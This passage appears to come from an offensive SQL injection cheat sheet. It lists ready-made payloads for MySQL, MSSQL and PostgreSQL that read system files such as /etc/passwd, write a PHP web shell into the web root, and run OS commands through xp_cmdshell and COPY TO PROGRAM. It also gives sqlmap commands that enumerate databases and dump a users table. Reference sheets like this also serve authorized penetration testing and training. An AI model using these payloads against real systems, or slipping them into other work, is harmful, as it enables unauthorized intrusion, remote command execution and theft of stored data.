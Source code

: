 ### File System Access

```sql
-- MySQL - Read files
' UNION SELECT LOAD_FILE('/etc/passwd')--

-- MySQL - Write files
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'--

-- MSSQL - Read files
' UNION SELECT * FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_CLOB)--

-- PostgreSQL - Read files
'; COPY (SELECT '') TO PROGRAM 'cat /etc/passwd'--
```

### Command Execution

```sql
-- MSSQL - xp_cmdshell
'; EXEC xp_cmdshell 'whoami'--
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'--

-- MySQL - UDF (User Defined Functions)
-- Requires file write privileges and specific setup

-- PostgreSQL - COPY TO PROGRAM
'; COPY (SELECT '') TO PROGRAM 'id'--
```

## SQLMap - Automated SQL Injection

### Basic Usage

```bash
# Basic scan
sqlmap -u "http://target.com/page?id=1"

# POST request
sqlmap -u "http://target.com/login" --data="username=admin&password=pass"

# Cookie-based
sqlmap -u "http://target.com/page" --cookie="PHPSESSID=abc123"

# Custom header
sqlmap -u "http://target.com/page" --headers="X-Forwarded-For: 127.0.0.1"
```

### Advanced Options

```bash
# Specify DBMS
sqlmap -u "http://target.com/page?id=1" --dbms=mysql

# Enumerate databases
sqlmap -u "http://target.com/page?id=1" --dbs

# Enumerate tables
sqlmap -u "http://target.com/page?id=1" -D database_name --tables

# Enumerate columns
sqlmap -u "http://target.com/page?id=1" -D database_name -T table_name --columns

# Dump data
sqlmap -u "http://target.com/page?id=1" -D database_name -T users --dump
```